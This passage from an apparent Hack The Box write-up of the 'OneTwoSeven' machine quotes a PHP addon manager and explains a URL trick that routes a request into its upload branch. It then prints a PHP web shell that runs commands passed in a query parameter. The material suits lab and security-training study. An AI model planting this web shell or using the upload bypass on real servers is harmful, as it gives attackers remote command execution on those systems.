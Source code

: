 ```php
        header("Location: /menu.php");
        header("Content-Type: text/plain");
        echo "File uploaded successfull.y";
      } else {
        header("Location: /menu.php");
        header("Content-Type: text/plain");
        echo "Error uploading the file: ";
        print_r($errors);
      }
    }
    break;
  # Download addon from addons folder.
  case preg_match('/\/addon-download.php/',$_SERVER['REQUEST_URI']):
    if ($_GET['addon']) {
      $addon_file = basename($_GET['addon']);
      if ( file_exists($addon_file) ) {
        header("Content-Disposition: attachment; filename=$addon_file");
        header("Content-Type: text/plain");
        readfile($addon_file);
      } else {
        header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
        die();
      }
    }
    break;
  default:
    echo "The addon manager must not be executed directly but only via<br>";
    echo "the provided RewriteRules:<br><hr>";
    echo "RewriteEngine On<br>";
    echo "RewriteRule ^addon-upload.php   addons/ots-man-addon.php [L]<br>";
    echo "RewriteRule ^addon-download.php addons/ots-man-addon.php [L]<br><hr>";
    echo "By commenting individual RewriteRules you can disable single<br>";
    echo "features (i.e. for security reasons)<br><br>";
    echo "<font size='-2'>Please note: Disabling a feature through htaccess leads to 404 errors for now.</font>";
    break;
}
?>
```

If we append `/addon-up.php` to `/addon-download.php`, and because `/addon-download.php` gets rewritten to `ots-man-addon.php`, the first case will match and our "plugin" gets uploaded.

One last thing: the 2nd line of the uploaded PHP must be `# OneTwoSeven Admin Plugin`. Here's the file that I'll be uploading.

<div class="filename"><span>ots-endgame.php</span></div>

```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS Default User
echo shell_exec($_GET[0]);
?>
```


[1]: https://www.hackthebox.eu/home/machines/profile/185
[2]: https://www.hackthebox.eu/home/users/profile/77141
[3]: https://www.hackthebox.eu/